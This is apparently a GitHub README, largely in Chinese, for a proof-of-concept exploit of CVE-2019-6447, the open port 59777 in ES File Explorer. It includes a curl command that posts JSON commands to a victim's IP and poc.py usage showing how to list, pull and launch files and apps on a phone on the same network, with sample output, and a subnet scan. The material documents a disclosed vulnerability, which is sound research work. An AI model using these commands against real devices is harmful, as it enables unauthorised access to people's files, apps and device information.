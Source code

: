 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES文件管理器(文件管理器)是一个功能齐全的文件(图像，音乐，电影，文件，应用程序)管理器，为本地和网络使用!ES File Explorer(文件管理器)在全球拥有超过5亿用户，帮助您高效地管理您的android手机和文件，并在无需数据成本的情况下共享文件。

每次用户启动应用程序时，都会启动一个HTTP服务器。此服务器在本地打开端口59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

在这个端口上，攻击者可以向目标发送JSON格式payload
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```
这些命令允许攻击者**连接到同一个本地网络上的受害者**，获取大量有关受害者手机的有趣信息(设备信息、安装的应用程序、……)，**远程从受害者手机获取文件**，**远程启动受害者手机上的应用程序**。

## 影响版本
4.1.9.7.4 以下

## POC Features
有了以下的(POC)，你可以:

-列出受害者设备的sdcard中的所有文件

-列出受害者设备上的所有图片

-列出受害者设备中的所有视频

-列出受害者设备中的所有音频文件

-列出受害者设备上安装的所有应用程序

-列出受害者设备上安装的所有系统应用程序

-列出受害者设备上安装的所有手机应用程序

-列出所有储存在受害者设备的sdcard中的apk文件

-列出受害者设备上安装的所有应用程序

-获取受害者设备的设备信息

-从受害设备中提取文件

-启动你选择的应用程序

-获取您选择的应用程序的图标


## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)


![](https://www.superbed.cn/pic/5c43e1575f3e509ed9437a06)


![](https://www.superbed.cn/pic/5c43de555f3e509ed9436bb7)


## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py --cmd listFiles --network 192.168.1.

$ python poc.py list

######################
# Available Commands #
######################
listFiles：列出所有文件
listPics：列出所有图片
listVideos：列出所有视频
listAudios：列出所有音频文件
listApps：列出所有已安装的应用
listAppsSystem：列出所有系统应用
listAppsPhone：列出所有手机应用
listAppsSdcard：列出所有sdcard 
listAppsAll：列出安装的所有应用程序（包括系统应用程序）
getDeviceInfo：获取设备信息
appPull：从设备中提取应用程序。需要包名称参数
appLaunch：启动应用程序。需要包名称参数
getAppThumbnail：获取应用程序的图标。包名称参数是必需的
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip from [@moonbocal](https://twitter.com/moonbocal), the investigation and the POC has been made with ❤️ by @fs0c131y
